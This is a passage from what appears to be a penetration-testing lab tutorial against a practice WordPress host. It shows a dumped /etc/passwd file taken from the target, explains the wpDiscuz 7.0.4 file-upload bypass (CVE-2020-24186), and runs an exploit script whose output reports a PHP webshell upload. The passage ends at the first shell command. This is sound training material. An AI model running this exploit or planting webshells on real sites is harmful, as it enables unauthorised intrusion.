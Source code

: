 ```shell
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false

```

#### Vulnerable Plugins - wpDiscuz

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. More on the mime type detection functions bypass can be found [here](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).

The exploit script takes two parameters: `-u` the URL and `-p` the path to a valid post.

```shell
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1

---------------------------------------------------------------
[-] Wordpress Plugin wpDiscuz 7.0.4 - Remote Code Execution
[-] File Upload Bypass Vulnerability - PHP Webshell Upload
[-] CVE: CVE-2020-24186
[-] https://github.com/hevox
---------------------------------------------------------------

[+] Response length:[102476] | code:[200]
[!] Got wmuSecurity value: 5c9398fcdb
[!] Got wmuSecurity value: 1

[+] Generating random name for Webshell...
[!] Generated webshell name: uthsdkbywoxeebg

[!] Trying to Upload Webshell..
[+] Upload Success... Webshell path:url&quot;:&quot;http://blog.inlanefreight.local/wp-content/uploads/2021/08/uthsdkbywoxeebg-1629904090.8191.php&quot;

> id

```